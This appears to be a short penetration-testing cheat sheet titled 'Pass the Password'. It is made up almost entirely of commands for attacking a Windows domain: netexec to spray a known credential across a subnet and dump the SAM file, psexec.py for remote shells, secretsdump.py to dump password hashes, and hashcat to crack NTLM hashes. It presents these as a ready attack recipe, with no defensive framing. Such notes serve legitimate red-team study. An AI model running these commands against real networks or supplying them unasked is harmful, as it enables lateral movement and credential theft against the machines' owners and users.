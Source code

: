 # Pass the Password

```bash
nxc $network_ip/$cidr -d $domain -u $user -p $password
```

Once you get the pwn3d machines you can psexec or so, or you can even use some modules and options provided by netexec.&#x20;

<pre class="language-bash"><code class="lang-bash"><strong># dumping sam file
</strong><strong>nxc $network_ip/$cidr -d $domain -u $user -p $password --sam
</strong>
psexec.py $domain/$username:$password@$machine_ip

# dump hashes
secretsdump.py $domain/$username:$password@$machine_ip

# crack hashes
hashcat -m 1000 hashfile dict_file -O
</code></pre>
